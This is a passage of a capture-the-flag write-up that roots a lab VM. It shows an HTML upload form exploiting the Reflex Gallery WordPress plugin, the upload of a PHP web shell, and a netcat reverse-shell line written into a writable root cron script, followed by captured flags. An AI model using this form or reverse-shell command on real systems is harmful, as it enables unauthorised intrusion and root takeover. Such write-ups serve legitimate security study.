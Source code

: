 I created the following form to exploit it, based on the listed exploit on [exploitdb](https://www.exploit-db.com/exploits/36374):

```html
<form method="POST" action="http://192.168.1.105/music/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php?Year=2020&Month=03" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```

and uploaded the php shell from here: [flozz/p0wny-shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php)

This gave me a shell on the machine when I browsed to it (it was under `wp-content/uploads/2020/03`), running under www-data but which seemed to have a lot of access. Going through the user dirs, I found an exe in amy's dir that revealed a flag when run through `strings`:

`FLAG-amy{60263777358690b90e8dbe8fea6943c9}`

## Leonard's cron job

Leonards home dir had a shell script, owned by root. It contained a comment saying that it was run every minute, and it was also writeable.

I echoed the following command into it and got a reverse shell via netcat: `echo "nc.traditional -e /bin/bash 192.168.1.3 1235" > thermostat_set_temp.sh`, running `nc -nvlp 1235` on the kali machine. This gave me a root shell!

## Win, but wait...

With the root shell, I was in the /root dir where leonards flag file sat. This supposedly marks the win condition:

```
                         ____                                                                                                                      
                        /    \                                                                                                                     
                       /______\                                                                                                                    
                          ||                                                                                                                       
           /~~~~~~~~\     ||    /~~~~~~~~~~~~~~~~\                                                                                                 
          /~ () ()  ~\    ||   /~ ()  ()  () ()  ~\                                                                                                
         (_)========(_)   ||  (_)==== ===========(_)                                                                                               
          I|_________|I  _||_  |___________________|                                                                                               
.////////////////////////////\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\                                                                                     
                                                                                                                                                   
Gongrats!                                                                                                                                          
You have rooted the box! Now you can sit on Sheldons spot!                                                                                         
FLAG-leonard{17fc95224b65286941c54747704acd3e}           
```
